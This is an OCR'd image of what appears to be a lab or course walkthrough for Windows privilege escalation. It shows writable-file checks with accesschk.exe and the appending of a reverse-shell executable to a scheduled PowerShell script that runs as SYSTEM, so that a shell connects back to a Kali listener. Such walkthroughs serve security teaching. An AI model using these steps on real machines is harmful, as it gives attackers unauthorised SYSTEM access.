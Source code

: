 1.In the 
C:\DevTools directory, 

there is a PowerShell script called
“CleanUp.ps1”. 

View the script:
> type C:\DevTools\CleanUp.ps1


2.This script seems like it is running every minute as the SYSTEM user. 
We can check our privileges on this script using accesschk.exe:


> C:\PrivEsc\accesschk.exe /accepteula -quvw user
C:\DevTools\CleanUp.ps1


It appears we have the ability to write to this file.

3.Backup the script:
> copy C:\DevTools\CleanUp.ps1 C:\Temp\


4.Start a listener on Kali.

5.Use echo to append a call to our reverse shell executable to the end of the script:


> echo C:\PrivEsc\reverse.exe >>
C:\DevTools\CleanUp.ps1


6.Wait for the scheduled task to run (it should run every minute) to complete the exploit.